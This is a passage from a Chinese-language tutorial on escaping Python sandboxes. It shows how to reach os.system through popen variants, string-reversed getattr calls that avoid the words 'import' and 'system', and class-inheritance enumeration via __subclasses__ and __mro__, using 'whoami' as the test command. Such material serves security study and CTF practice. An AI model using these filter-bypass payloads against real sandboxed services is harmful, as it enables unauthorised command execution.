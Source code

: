 通过上面内容我们很容易发现，光引入`os`只不过是第一步，如果把`system`这个函数干掉，也没法通过`os.system`执行系统命令，并且这里的`system`也不是字符串，也没法直接做编码等等操作。

不过，要明确的是，os 中能够执行系统命令的函数有很多：

```
print(os.system('whoami'))
print(os.popen('whoami').read()) 
print(os.popen2('whoami').read()) # 2.x
print(os.popen3('whoami').read()) # 2.x
print(os.popen4('whoami').read()) # 2.x
...
```

应该还有一些，可以在这里找找：

[2.x 传送门](https://docs.python.org/2/library/os.html)

[3.x 传送门](https://docs.python.org/3/library/os.html)

过滤`system`的时候说不定还有其他函数给漏了。

其次，可以通过 `getattr` 拿到对象的方法、属性：

```
import os
getattr(os, 'metsys'[::-1])('whoami')
```

不让出现 import也没事：

```
>>> getattr(getattr(__builtins__, '__tropmi__'[::-1])('so'[::-1]), 'metsys'[::-1])('whoami')
desktop-13qds1a\lenovo
0
```

与 `getattr` 相似的还有 `__getattr__`、`__getattribute__`，它们自己的区别就是`getattr`相当于`class.attr`，都是获取类属性/方法的一种方式，在获取的时候会触发`__getattribute__`，如果`__getattribute__`找不到，则触发`__getattr__`，还找不到则报错。更具体的这里就不解释了，下面有。

### 通过继承关系逃逸

*[这里](#Python中的一些 Magic Method)

```
>>> for i in enumerate(''.__class__.__base__.__subclasses__()): print(i)
```

Python 中有个属性，`.__mro__` 或 `.mro()`，是个元组，记录了继承关系：

```
>>> '1'.__class__.mro()
[<class 'str'>, <class 'object'>]
>>> '1'.__class__.__mro__
(<class 'str'>, <class 'object'>)
```

类的实例在获取 `__class__` 属性时会指向该实例对应的类。可以看到，`''`属于 `str`类，它继承了 `object` 类，这个类是所有类的超类。具有相同功能的还有`__base__`和`__bases__`。需要注意的是，经典类需要指明继承 object 才会继承它，否则是不会继承的（Python 3.9 测试无需指明）
